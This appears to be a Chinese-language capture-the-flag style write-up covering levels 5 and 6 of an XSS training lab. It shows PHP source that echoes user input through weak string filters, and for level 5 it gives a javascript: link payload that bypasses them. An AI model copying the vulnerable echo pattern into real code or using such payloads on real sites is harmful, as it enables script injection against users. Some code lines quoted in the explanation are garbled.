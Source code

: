 <br />

# level 5

查看部分源码:
```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

其中:
```php
str2=strreplace("<script","<script",str); 
str3=strreplace("on","on",str2); 就直接把
```
`<script` 转换成 `<scr_ipt`, `on`转换成 `o_n`, 这样就过滤了js事件.

```php
str=strtolower(_GET["keyword"]);
```
大小写绕过也失效

可以使用伪协议来构造payload:
```js
" > <a href=javascript:alert(1)> // 
```

完成后需要点击一下底下的payload长度, 才会弹出`完成得不错`.....


<br />

# level 6

部分源码:
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
